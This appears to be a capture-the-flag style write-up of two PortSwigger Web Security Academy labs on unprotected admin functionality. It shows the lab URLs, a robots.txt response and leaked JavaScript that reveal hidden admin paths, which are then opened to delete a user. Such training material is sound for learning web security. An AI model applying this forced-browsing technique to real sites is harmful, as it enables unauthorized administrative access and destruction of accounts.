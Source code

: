 # 1 [Lab: Unprotected admin functionality](https://portswigger.net/web-security/access-control/lab-unprotected-admin-functionality)

This lab has an unprotected admin panel.

Solve the lab by deleting the user carlos.

add to URL:

```bash
robots.txt
```

```bash
https://0aba0081040734fd80a385cd002c0010.web-security-academy.net/robots.txt
```

res:

```bash
User-agent: *
Disallow: /administrator-panel
```

add to URL:

```bash
/administrator-panel
```

send in URL:

```bash
https://0aba0081040734fd80a385cd002c0010.web-security-academy.net/administrator-panel
```

res:

```bash
Users
wiener - Delete
carlos - Delete
```

# 2 [Lab: Unprotected admin functionality with unpredictable URL](https://portswigger.net/web-security/access-control/lab-unprotected-admin-functionality-with-unpredictable-url)

This lab has an unprotected admin panel. It's located at an unpredictable location, but the location is disclosed somewhere in the application.

Solve the lab by accessing the admin panel, and using it to delete the user carlos.

add to URL:

```bash
robots.txt
```

```bash
https://0aba0081040734fd80a385cd002c0010.web-security-academy.net/robots.txt
```

res:

```bash
"Not Found"
```

in home page go to => view page sourse
sourse is:

```js
 <script>
var isAdmin = false;
if (isAdmin) {
   var topLinksTag = document.getElementsByClassName("top-links")[0];
   var adminPanelTag = document.createElement('a');
   adminPanelTag.setAttribute('href', '/admin-zq67oz');
   adminPanelTag.innerText = 'Admin panel';
   topLinksTag.append(adminPanelTag);
   var pTag = document.createElement('p');
   pTag.innerText = '|';
   topLinksTag.appendChild(pTag);
}
</script>
```

find:

```bash
adminPanelTag.setAttribute('href', '/admin-zq67oz');
```

```bash
/admin-zq67oz
```

send

```bash
https://0aba0081040734fd80a385cd002c0010.web-security-academy.net/admin-zq67oz
```

res:

```bash
Users
wiener - Delete
carlos - Delete
```
